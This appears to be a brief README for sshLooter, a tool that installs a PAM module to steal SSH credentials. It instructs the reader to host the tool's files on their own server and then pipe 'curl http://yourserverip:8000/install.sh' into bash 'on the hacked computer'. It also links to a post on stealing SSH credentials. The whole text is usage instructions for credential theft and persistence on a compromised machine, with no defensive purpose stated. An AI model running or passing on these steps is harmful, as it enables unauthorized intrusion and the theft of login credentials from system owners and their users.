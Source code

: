 # Using PAM module
```bash
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter

# On your server execute.
python -m SimpleHTTPServer

# On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
```

# References
[Stealing SSH credentials Another Approach](https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html)

[sshLooter](https://github.com/mthbernardes/sshLooter)